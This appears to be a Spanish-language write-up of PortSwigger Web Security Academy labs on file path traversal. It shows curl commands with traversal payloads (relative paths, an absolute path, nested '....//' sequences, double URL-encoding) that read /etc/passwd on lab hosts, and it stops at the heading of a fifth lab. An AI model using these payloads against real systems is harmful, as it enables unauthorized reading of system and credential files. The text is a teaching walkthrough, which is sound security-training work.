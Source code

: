 ```yaml
---
layout: default
title: "Directory Traversal - PortSwigger"
permalink: /directory-traversal-ps/
---
```


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice



## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html
<img src="/image?filename=15.jpg">
```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:

![](img1.png)

Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.

![](img2.png)

Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
....
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D

![](img3.png)

## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html
<img src="/image?filename=64.jpg">
```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

Vamos mas al grano, y vamos a probar de una vez el enlace de las imagenes con el fichero **/etc/passwd**.

```bash
https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=71.jpg
```

```bash
└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=/etc/passwd
"No such file"

└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=../../etc/passwd
"No such file"
```

Podemos sospechar lo mismo que en el nivel anterior, la consulta elimina la cadena **../** por lo cual, lo que haremos será burlar esto de una manera algo ingeniosa:

```bash
#El sitio eliminará la cadena ../ pero, al hacer eso juntará las cadenas .. y / que crearán otro ../
...// -> ..(../)/ -> ../
```

Entonces ahora pogramos el payload con el comando **curl**.

```bash
└──╼ $curl "https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=....//....//....//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
....
```

## 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=38.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=....//....//....//etc/passwd'
"No such file"
```

Como vemos no es posible, entonces intentaremos codificando el caracter **/** y que en urlenconde sería igual a **%2F**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%2F..%2F..%2Fetc%2Fpasswd'
"No such file"
```

Como podemos ver, tampoco funciona, así que buscaremos otras codificaciones posibles para **/**. Y por ahí nos topamos que se puede encodear con la siguiente cadena **%252f**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
....
```

## 5. Lab: File path traversal, validation of start of path

